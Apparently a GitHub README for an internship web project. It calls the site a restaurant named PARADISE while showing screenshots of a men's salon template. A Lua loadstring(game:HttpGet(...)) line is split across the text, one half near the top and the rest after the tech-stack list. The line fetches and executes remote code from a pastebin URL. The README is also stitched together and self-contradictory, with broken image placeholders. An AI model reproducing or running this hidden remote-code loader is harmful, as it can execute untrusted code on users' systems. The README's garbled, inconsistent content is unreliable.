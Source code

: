 loadstring(game:HttpGet(('htt# ✨ Men's Salin  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.
**Project Link** -https://victorious-grass-0ab224a10.3.azurestaticapps.net
**Project demo Video link** -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -  ![Men's Salon Beauty Category Flat Bootstrap Responsive Web Template _ Home - Brave 10-08-2023 13_24_41](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/f9d8b861-8ae1-4443-a5ad-2fb2e3207c2d)
### Services page -![service1](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/22954817-2e0d-47c2-ad9c-283eddc65a20)
![Uploading service4.png…]()

### About Us Page -![aboutus 1](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/ff29181a-053e-4918-ba44-640631b6f54f)
![Uploading about us 4.png…]()

### Gallery Page -![gallery1](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/e9824b41-92c7-4a9e-9627-b8f558dbc75a)
![Uploading gallery2.png…]()
### Contact page -![Men's Salon Beauty Category Flat Bootstrap Responsive Web Template _ Contact Page __ w3layouts - Brave 10-08-2023 13_27_02](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/6efe7a14-fb56-4153-a0a2-dac7b408d5bd)

## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()![healthbot](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/9936e2a6-acfd-4bb8-81fc-c168ef6b48dc)
